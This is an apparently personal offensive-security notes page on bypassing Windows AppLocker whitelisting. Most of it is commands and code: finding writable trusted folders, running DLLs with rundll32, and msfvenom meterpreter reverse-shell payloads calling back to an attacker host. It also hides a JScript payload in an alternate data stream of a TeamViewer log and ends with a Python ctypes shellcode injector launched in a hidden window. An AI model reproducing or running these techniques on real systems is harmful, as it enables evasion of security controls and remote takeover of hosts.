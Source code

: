 ```yaml
---
title: Bypassing application whitelisting
tags:
  - breach
  - operations
  - bypass
  - application
  - whitelist
  - allowlist
  - applocker
  - python
  - jscript
  - ctypes
  - sysinternals
  - icacls
  - accesscheck
  - rundll32
---
```


## AppLocker

TODO

## Finding trusted folders

TODO SysInternals TODO arguments

- `-w` to locate writeable directores
- `-u` to suppress any errors
- `-s` to recursively search through all subdirectories

```powershell
accesscheck.exe "${USERNAME}" "${DIRECTORY}" -wus
```

TODO using `icacls.exe`

```powershell
icacls.exe "${DIRECTORY}"
```

Example execution

```powershell
PS> icacls.exe C:\Windows\Tasks
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)
                 BUILTIN\Administrators:(F)
                 BUILTIN\Administrators:(OI)(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(F)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                 CREATOR OWNER:(OI)(CI)(IO)(F)
```

Above shows that `NT AUTHORITY\Authenticated Users` has `ReadExecute` and
`WriteDirectory` permissions. If AppLocker allows code execution from the
`C:\Windows` directory, an unprivileged, authenticated user would be able to
gain code execution.

## Bypass with rundll32

Unmanaged code within DLLs can be used to bypass default AppLocker rules, as
code execution is restricted to executables, not DLLs. With this, we can invoke
the following command to execute DLLs and bypass AppLocker restrictions:

```powershell
rundll32 "${DLL_PATH}","${EXPORTED_METHOD}"
```

The above example invocation will load and execute the provided DLL, invoking
the specified exported method.

AppLocker can also publish rules to restrict DLL execution to particular
directories, however, we can also use the directory-based bypass discussed in
the previous section,
[[bypassing-application-whitelisting#Finding trusted folders|Finding trusted folders]],
to execute DLLs.

### Executing an msfvenom DLL payload

The following invocation will generate a **meterpreter** DLL payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=${LHOST} LPORT=${LPORT} -f dll -o payload.dll
```

We can execute the payload on a Windows host to obtain a reverse shell by
invoking the following:

```powershell
rundll32 .\payload.dll,entrypoint
```

## Bypass with alternate data streams

The Windows NTFS filesystem has a feature that allows data to be stored in
**Alternate Data Streams (ADS)**. If we're able to write our text-based
payloads, for example Jscript, to an file's ADS contained with a trusted
directory, we can bypass directory-based restrictions.

The following invocation will generate a raw **meterpreter** shellcode payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.190 LPORT=8443 -f raw -o shell.txt
```

We use the [SharpShooter](https://github.com/X0RW3LL/SharpShooter/tree/master)
utility to wrap our **meterpreter** shellcode payload in a **Jscript** runner
for .NET Framework version 4:

```bash
python ~/opt/SharpShooter/SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output shell
```

We use techniques described in our previous section,
[[bypassing-application-whitelisting#Finding trusted folders|Finding trusted folders]],
to find a candidate text file that we can write an **ADS** to. Here's an example
invocation of writing our `shell.js` payload to an **ADS**:

```cmd
type shell.js > "${FILE_PATH}:shell.js"
```

In our example, we'll use this **TeamViewer** log file:

```cmd
type shell.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:shell.js"
```

To execute the payload, we'll use `wscript` to execute the contents of the
**Jscript** payload in the file's **ADS**:

```cmd
wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:shell.js"
```

## Other bypass methods

AppLocker only enforces rules against native file types. Code execution with
third-party scripting engines like Python or Perl are not restricted. Similarly,
we could also gain code execution with Java. There is also a lack of enforcement
against VBA code inside Microsoft Office documents, highlighting the usefulness
of Office documents in client-side attacks.

Here's an example invocation of `msfvenom` to create a Python **meterpreter**
reverse shell payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=${LHOST} LPORT=${LPORT} -f python -o payload.py
```

The following Python script uses `ctypes` to inject our shellcode into the
current Python process and executes it:

```python
import ctypes
from sys import exit


class Constants:
    PAGE_EXECUTE_READWRITE = 0x40
    PAGE_SIZE = 0x3000


def main() -> int:
    buf = b""
    buf += b"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51"
    # ...
    buf += b"\xff\xd5"

    kernel32 = ctypes.windll.kernel32
    kernel32.VirtualAlloc.restype = ctypes.c_void_p

    segment = kernel32.VirtualAlloc(
        None,
        len(buf),
        Constants.PAGE_SIZE,
        Constants.PAGE_EXECUTE_READWRITE,
    )

    kernel32.RtlMoveMemory.argtypes = (
        ctypes.c_void_p,
        ctypes.c_void_p,
        ctypes.c_size_t,
    )

    kernel32.RtlMoveMemory(segment, ctypes.create_string_buffer(buf), len(buf))
    ctypes.cast(segment, ctypes.CFUNCTYPE(None))()

    return 0


if __name__ == "__main__":
    exit(main())
```

Invoke the Python **meterpreter** reverse shell payload on a Windows host with
the following:

```powershell
Start-Process `
    -FilePath (Get-Command python).Source `
    -ArgumentList @((Resolve-Path -Path ".\ReverseShell.py").Path) `
    -WindowStyle Hidden
```
